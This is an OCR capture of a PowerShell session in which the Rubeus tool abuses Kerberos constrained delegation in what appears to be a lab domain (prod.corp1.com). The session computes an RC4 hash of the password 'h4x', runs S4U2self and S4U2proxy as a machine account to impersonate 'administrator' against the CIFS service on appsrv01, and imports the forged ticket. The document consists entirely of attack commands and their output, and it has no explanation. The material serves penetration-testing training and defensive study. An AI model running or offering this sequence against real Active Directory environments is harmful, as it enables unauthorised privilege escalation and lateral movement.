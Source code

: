```
PS C:\tools> .\Rubeus.exe hash /password:h4x
...
[*] Action: Calculate Password Hash(es)
[*] Input password : h4x
[*] rc4_hmac : AA6EAFB522589934A6E5CE92C6438221
[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

PS C:\tools> .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221
/impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
...
[*] Action: S4U
[*] Using rc4_hmac hash: AA6EAFB522589934A6E5CE92C6438221
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\myComputer$'
[+] TGT request successful!
[*] base64(ticket.kirbi):
doIFFDCCBRCgAwIBBaEDAgEWooIEI...
[*] Action: S4U
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2self request for: 'myComputer$@PROD.CORP1.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@PROD.CORP1.COM' to 'myComputer$@PROD.CORP1.COM'
[*] base64(ticket.kirbi):
doIFhDCCBYCgAwIBBaEDAgEWooIEi...
[*] Impersonating user 'administrator' to target SPN 'CIFS/appsrv01.prod.corp1.com'
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2proxy request for service: 'CIFS/appsrv01.prod.corp1.com'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/appsrv01.prod.corp1.com':
doIGbDCCBmigAwIBBaEDAgEWooIFY...
[+] Ticket successfully imported!

```